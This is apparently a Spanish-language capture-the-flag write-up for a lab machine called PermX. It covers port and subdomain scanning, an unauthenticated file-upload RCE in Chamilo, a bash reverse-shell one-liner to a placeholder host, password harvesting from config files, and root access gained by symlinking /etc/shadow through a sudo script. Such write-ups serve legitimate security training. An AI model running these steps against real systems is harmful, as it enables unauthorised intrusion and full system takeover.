


Escaneo de puertos
nmap -sVC -p- --open -sS --min-rate 5000 -v -n -Pn -oN permx_scan 10.10.11.23
Puertos 22 (SSH) y 80 (HTTP) abiertos
Añadido a /etc/hosts
Como directorios encuentro esto

whatweb http://permx.htb:80/
http://permx.htb:80/ [200 OK] Apache[2.4.52], Bootstrap, Country[RESERVED][ZZ], Email[permx@htb.com], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.52 (Ubuntu)], IP[10.10.11.23], JQuery[3.4.1], Script, Title[eLEARNING]
Encuentro 2 subdominios
ffuf -u http://permx.htb/ -H "Host: FUZZ.permx.htb" -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -mc 200 -s
En lms.permx.htb encuentro un login
Es la versión 1 de Chamilo
Chamilo es vulnearable a es vulnerable a Unauthenticated Upload File RCE
Encuentro un POC
https://starlabs.sg/advisories/23/23-4220/
Tendré que crear un rce en php

Subimos el archivo con curl
Le envio una solicitud para ver si funcionó
Ahora envio el condigo para el reverse shell
bash -c "bash -i >& /dev/tcp/<IP>/<PORT> 0>&1"
Lo tengo que encodear para poder mandarlo en la url y lo entienda
Obtengo el shell, estamos como el usuario www-data
Veo que existe el usuario mtz pero no puedo acceder a el
El siguiente paso sería acceder al usuario mtz y desde ahí escalar privilegios
encontramos la ruta /var/www/chamilo/app/config que puede contener datos interesantes
Con el comando cat * | grep "pass" hago que se me muestre todas las lineas que contienen la palabra pass de todos los archivos del directorio actual
Encontramos unas password de una db
Intento usar esta pass para el usuario mtz
Consigo la conexión con el usuario mtz a través de SSH
Con sudo -l veo que puedo ejecutar
Veo lo que hace esta script como administrador
La script sirve para dar permisos a un archivo dentro de la ruta /home/mtz/*
La idea sería cambiar los permisos de /etc/shadow para poder ver el hash del root
Pero como no podemos lo más probable es que tengamos que crear un enlacen simbólico en el home de mtz hacia el archivo que quiero ver o modificar
Editamos el archivo shadow para quitarle la pass a root
Al quitarle la password podemos entrar como root